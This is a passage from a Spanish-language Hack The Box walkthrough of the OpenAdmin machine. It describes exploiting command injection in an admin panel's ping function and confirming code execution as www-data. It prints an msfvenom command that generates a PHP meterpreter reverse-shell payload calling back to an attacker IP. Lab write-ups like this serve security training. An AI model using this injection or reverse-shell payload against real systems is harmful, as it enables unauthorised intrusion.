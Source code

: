 El exploit es simple, aunque el panel administrativo automáticamente nos posibilita ciertas funciones como usuario invitado (**guest**) y requiere autenticación para el usuario administrativo, este software tiene una funcionalidad al estilo de Inyección de comandos, en el que realiza un `ping` recibiendo el comando como parámetro desde el cliente y lo ejecuta directamente, así que podemos aprovecharnos de esto y agremás más comandos utilizando  `;`.  Recreamos el comportamiento y validamos de forma manual la vulnerabilidad:

![Exploit Manual](/assets/htb/04_openAdmin/05_exploit_manual.png)
_Recreando el exploit manualmente_

Como resultado al comando `whoami` podemos ver en la respuesta:

![Resultado Exploit](/assets/htb/04_openAdmin/06_resultado_exploit.png)
_Resultado del exploit-whoami_

De esta manera se determina que tenemos un **RCE** con privilegios de usuario `www-data`, por lo que aprovecharemos algunas herramientas internas para subir o ejecutar una Shell más comoda con un meterpreter de metasploit: 

```console
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.15.125 LPORT=4646 -f raw > d14.php
```
![Msfvenom payload php](/assets/htb/04_openAdmin/07_msfvenom_php.png)
_Generando Payload con msfvenom en php_
